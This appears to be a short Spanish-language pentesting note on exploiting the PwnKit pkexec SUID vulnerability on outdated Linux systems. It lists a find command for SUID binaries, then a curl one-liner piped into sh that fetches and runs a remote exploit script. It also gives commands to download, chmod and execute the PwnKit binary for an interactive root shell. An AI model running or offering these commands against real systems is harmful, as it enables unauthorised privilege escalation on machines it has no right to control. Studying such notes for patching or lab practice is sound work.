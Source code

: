 - Tags: #Linux #Vulnerabilidades #pkexec #PwnKit 

Esta vulnerabilidad saló ya hace dos años, por lo que solo afectan a sistemas linux desactualizados con pkexec que tengan suid activado.
Para poder explotar esta vuln podríamos realizar primero una búsqueda de permisos suid con el [[Comando find, búsqueda de permisos suid y más]], 
```bash
sudo find / -type f -perm -4000 2>/dev/null | xargs ls -la 
```

Si vemos que el binario /usr/bin/pkexec tiene el permiso Suid, siempre y cuando la máquina este desactualizada podemos ejecutar el siguiente oneliner de este enlace de [github](https://github.com/ly4k/PwnKit) 

El comando one liner sin necesidad de descargarse nada
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

El comando para descargarse el archivo y ejecutarlo
```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

